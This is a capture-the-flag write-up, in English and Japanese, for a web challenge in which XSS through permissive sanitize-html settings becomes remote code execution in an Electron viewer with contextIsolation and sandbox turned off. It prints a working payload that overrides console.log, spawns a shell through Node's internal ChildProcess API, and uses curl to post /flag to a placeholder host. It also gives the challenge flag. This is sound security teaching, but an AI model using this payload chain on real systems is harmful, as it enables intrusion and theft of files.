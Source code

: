 ```yaml
---
title: elec
level: 4
flag: FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}
writer: ciffelia
---
```


# elec

> https://web-elec-lz56g6.wanictf.org/

## Solution

日本語版は英語版の後に記載しています。Japansese follows English.

In this challenge, user posts are sanitized using [sanitize-html](https://github.com/apostrophecms/sanitize-html) as follows:

```js
sanitizeHtml(userPost, {allowedTags: ["p", "br", "hr", "a", "img", "blockquote", "ul", "ol", "li"],allowedAttributes: {'*':['*']}})
```

This sanitization prevents the use of `<script>` elements in posts. However, since any HTML attribute is allowed, XSS is possible, for instance:

```html
<img src=x onerror="alert(1)">
```

In this challenge, the flag is not in the admin's cookie but on the filesystem. Therefore, XSS alone isn't enough to obtain the flag; we need to achieve Remote Code Execution (RCE).

Notably, the admin uses Electron to view posts, and the following options are specified when Electron starts:

```js
const win = new BrowserWindow({
  width: 800,
  height: 600,
  webPreferences: {
    preload: path.join(__dirname, "preload.js"),
    contextIsolation: false,
    sandbox: false,
  },
});
```

Explaining the main process, renderer process, and preload script of Electron is omitted here. If you're unfamiliar, refer to the following articles for a clear explanation:

- [Process Model | Electron](https://www.electronjs.org/docs/latest/tutorial/process-model)

Specifying `sandbox: false` allows the use of Node.js APIs in the preload script. In this challenge, the preload script uses the `child_process` module, so this option is necessary.

Specifying `contextIsolation: false` makes the preload script and website scripts run in the same context. This allows an attacker to interfere with `preload.js` via XSS code, enabling actions like prototype pollution or overwriting functions like `console.log`.

The `preload.js` contains the following code:

```js
const cp = spawn("uname", ["-a"]);
console.log(cp);
```

[`spawn`](https://nodejs.org/docs/latest-v20.x/api/child_process.html#child_processspawncommand-args-options) is a function imported from Node.js's [`child_process`](https://nodejs.org/docs/latest-v20.x/api/child_process.html) module, returning an instance of [`ChildProcess`](https://nodejs.org/docs/latest-v20.x/api/child_process.html#class-childprocess). By overwriting `console.log` in the XSS code, we can access this `ChildProcess` instance.

What can we do with the `ChildProcess` instance? The Node.js documentation suggests we can't start new processes. However, reading Node.js's source code reveals an internal API for starting processes:

https://github.com/nodejs/node/blob/b965dddf69080fe9cfe1372d12d2da59a98d6a21/lib/internal/child_process.js#L355

Though undocumented, by examining how the spawn function calls this internal API, we find that we can execute arbitrary commands like this:

```js
const ChildProcess = cp.constructor
new ChildProcess().spawn({ file: 'echo', args: ['echo', 'hello', 'world!'] })
```

Thus, we can create a post like this and report it to obtain the flag:

```html
<img src=x onerror="console.log = (x) => { if (x.constructor.name === 'ChildProcess') new x.constructor().spawn({ file: 'sh', args: ['sh', '-c', 'curl -X POST -d @/flag https://your-server.example'] }) }">
```

This challenge is inspired by the Microsoft Teams RCE discovered at last year's Pwn2Own.

[How I Hacked Microsoft Teams and got $150,000 in Pwn2Own - Speaker Deck](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own)

## 解法

本問ではユーザーの投稿内容が以下のように[sanitize-html](https://github.com/apostrophecms/sanitize-html)によりサニタイズされています。

```js
sanitizeHtml(userPost, {allowedTags: ["p", "br", "hr", "a", "img", "blockquote", "ul", "ol", "li"],allowedAttributes: {'*':['*']}})
```

この処理により、投稿で`<script>`要素を使用することはできなくなっています。しかし、HTMLの属性は任意のものが利用可能な設定になっているため、以下のようにXSSが可能です。

```html
<img src=x onerror="alert(1)">
```

一方で、本問ではフラグはadminのCookieではなくファイルシステム上に存在しています。そのため、XSSだけではフラグを取得できず、RCEを実現する必要があります。

ここで注目するのが、本問ではadminが投稿の閲覧にElectronを使用していることと、Electronの起動時に以下のオプションが指定されていることです。

```js
const win = new BrowserWindow({
  width: 800,
  height: 600,
  webPreferences: {
    preload: path.join(__dirname, "preload.js"),
    contextIsolation: false,
    sandbox: false,
  },
});
```

Electronにおけるメインプロセスとレンダラープロセス、プリロードスクリプトに関する説明は割愛します。以下の記事などでわかりやすく解説されているため、ご存知でない方はご確認ください。

- [Electron - チュートリアルその5 プリロードスクリプトの使い方 - pystyle](https://pystyle.info/electron-tutorial-use-preload-script/)
- [Electron入門 ~ Webの技術でつくるデスクトップアプリ](https://zenn.dev/sprout2000/books/6f6a0bf2fd301c)
- [プロセスモデル | Electron](https://www.electronjs.org/ja/docs/latest/tutorial/process-model)

`sandbox: false`を指定すると、プリロードスクリプトからNode.js APIの利用が可能になります。本問のプリロードスクリプトでは`child_process`モジュールを利用しているため、このオプションの指定が必要です。

`contextIsolation: false`を指定すると、プリロードスクリプトとウェブサイトのスクリプトが同じコンテクストで実行されるようになります。本問では、攻撃者がXSSのコードから`preload.js`に干渉することができるようになります。Prototype Pollutionを行うことや`console.log`などの関数を書き換えることが可能です。

`preload.js`には以下の処理があります。

```js
const cp = spawn("uname", ["-a"]);
console.log(cp);
```

[`spawn`](https://nodejs.org/docs/latest-v20.x/api/child_process.html#child_processspawncommand-args-options)はNode.jsの[`child_process`](https://nodejs.org/docs/latest-v20.x/api/child_process.html)モジュールからインポートした関数で、[`ChildProcess`](https://nodejs.org/docs/latest-v20.x/api/child_process.html#class-childprocess)のインスタンスを返します。XSSのコードで`console.log`を書き換えれば、この`ChildProcess`のインスタンスにアクセスすることができそうです。

では、この`ChildProcess`のインスタンスを利用して何ができるのでしょうか？Node.jsのドキュメントを読む限りでは新たにプロセスを起動することはできないように見えます。しかしNode.jsのソースコードを読むと、プロセスを起動するための内部APIが存在することがわかります。

https://github.com/nodejs/node/blob/b965dddf69080fe9cfe1372d12d2da59a98d6a21/lib/internal/child_process.js#L355

この関数の使い方はドキュメントに記載されていませんが、`spawn`関数を実行する際の内部APIの呼び出しなどを調べることで、以下のように任意のコマンドを実行できることがわかります。

```js
const ChildProcess = cp.constructor
new ChildProcess().spawn({ file: 'echo', args: ['echo', 'hello', 'world!'] })
```

したがって、本文が次のような投稿を作成しReportすることでフラグを取得できます。

```html
<img src=x onerror="console.log = (x) => { if (x.constructor.name === 'ChildProcess') new x.constructor().spawn({ file: 'sh', args: ['sh', '-c', 'curl -X POST -d @/flag https://your-server.example'] }) }">
```

本問は、昨年のPwn2Ownで発見されたMicrosoft TeamsのRCEを元ネタにしています。

[Pwn2OwnでMicrosoft Teamsをハッキングして2000万円を獲得した方法/ Shibuya.XSS techtalk #12 - Speaker Deck](https://speakerdeck.com/masatokinugawa/shibuya-dot-xss-techtalk-number-12)
